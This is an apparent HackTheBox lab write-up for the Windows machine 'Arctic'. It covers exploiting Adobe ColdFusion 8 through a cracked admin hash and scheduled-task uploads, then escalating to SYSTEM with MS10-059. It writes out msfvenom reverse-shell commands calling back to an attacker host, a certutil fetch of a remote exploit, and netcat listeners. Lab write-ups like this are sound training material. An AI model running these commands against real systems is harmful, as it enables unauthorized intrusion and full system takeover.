# HackTheBox - Arctic - Windows

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.10.11  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 16:14 EDT
Nmap scan report for 10.10.10.11
Host is up (0.022s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 229.52 seconds
```

## FMTP

- I find this fmtp protocol quite odd. Google was kinda frustrating on this so I just decided to try and go to the service with the browser: http://10.10.10.11:8500/
- And I got this page:  
  
- Here is the content of the /cfdocs folder  
  
- Let's try to get all files and folders with `wget -r --no-parent http://10.10.10.11:8500/` (it will take a while)
- The files seem to be related to coldfusion which is an adobe tool to develop web app.
- These [slides by Chris Gates](https://paper.bobylive.com/Security/LARES-ColdFusion.pdf) about coldfusion are very useful. This [wiki](https://nets.ec/Coldfusion_hacking) by nets.ec is also very useful
- Another useful article [here](https://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)
- We know that it is using Adobe Coldfusion 8:  
  
- version `8,0,1,195765` to be exact:  
  
- We have a login panel here: http://10.10.10.11:8500/CFIDE/administrator/
- We have the hash of the admin  

```bash
#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 
```
  

- If we go on crackstation.net we can easily find the password `happyday`  

  

- We can then connect to the panel  

  

- If we follow the slides by Chris Gates (page 85), turns out we can get rce using the schedule tasks
- Let's make a reverse shell exe file with msfvenom
  - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe` if you catch it with meterpreter or `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe` if you catch it with netcat
  - Set up a listener `rlwrap nc -lvp 4444`
  - We server our exe `python3 -m http.server 80`
- Now to execute it we have to click on "Schedule New Task" let's make it every minute and a half (has to be greater than 60 seconds) 
- the url is going to be `http://10.10.14.2/shell.exe`
- Let's try like this for now  

> For some reason the chars were written in greek so I had to write am and pm in greek... I do not speak greek at all but google showed me how to write `am` in greek. See here: https://www.proz.com/kudoz/english-to-greek/general-conversation-greetings-letters/684823-am-pm.html
  
> NOTE: I found out later that the time does not matter we can basically manually launch the tasks

- Ok another try without the greek chars cause it does not seem to work as well so if I type ony `08:30` instead of `8:37 πμ` the task is scheduled.



- Third try
  
- This is asking for a valid dir name. We can find some in server settings > Mappings (our file will be uploaded there so make sure to put it somewhere you will easily find it)

- Now we can modify our task accordingly `C:\ColdFusion8\wwwroot\CFIDE\shell.exe`

- Now let's do our system probe (page 87 of the slides)
- We click on define new probe




> I do not get a shell this way either with meterpreter or nc even though the files are being fetch from my http server.

- Let's try to upload another type of payload and execute it through the directory listing misconfiguration. Let's try jsp (according to the doc "ColdFusion pages and JSP pages can interoperate in several ways" see here: https://helpx.adobe.com/coldfusion/developing-applications/using-web-elements-and-external-objects/integrating-jee-and-java-elements-in-cfml-applications/interoperating-with-jsp-pages-and-servlets.html)
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=5555 -f raw > shell.jsp` We generate our jsp shell
- `rlwrap nc -lvp 5555` we set our listener
- We upload it to our target with the scheduled Task
- This time our URL is `http://10.10.14.2/shell.jsp`
- And our output has to be saved like this: `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`
  
- I forgot to mention it before but the time does not really matter because we can just launch a task by clicking on the green icon here in front of the task  

- Our shell gets fetch  

- And it is in our target  

- Let's click on it and pray to catch the shell this time :)
- It finally works!!

- We get a shell as tolis

```dos
whoami
arctic\tolis
```

- Let's get the user flag  


> Another way (without needing the password) would also have been to use Metasploit https://www.exploit-db.com/exploits/16788 or a script like this one https://github.com/zaphoxx/zaphoxx-coldfusion/blob/main/2265.py
> - We would take the python script in our target, 
> - Generate the jsp with msfvenom, 
> - Setup our listener, 
> - And launch the python script that will upload our shell to the target
> - Navigate to the page with our shell

## Privesc

- Let's make a systeminfo and copy the output in a file to find an exploit
- We can use Windows exploit suggester on it `wes --update` first we update the db
- Then we pass it our file `wes sysinfo.txt `
- We can focus on privesc with this command `wes sysinfo.txt | grep -A8 "Elevation of Privilege"`
- We have this here which is also MS10-059

```bash
CVE: CVE-2010-2554
KB: KB982799
Title: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege
Affected product: Windows Server 2008 R2 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a
```
- Let's take the exploit in our attacking machine `wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe`
- We serve it with python web server
- We take it in our target `certutil.exe -urlcache -f http://10.10.14.2/MS10-059.exe MS10-059.exe`
- We set up a listener `rlwrap nc -lvp 5556`
- `MS10-059.exe 10.10.14.2 5556` we run our exploit (we wait a little)
- We have a root shell  

- We just need to grab the root flag :)  

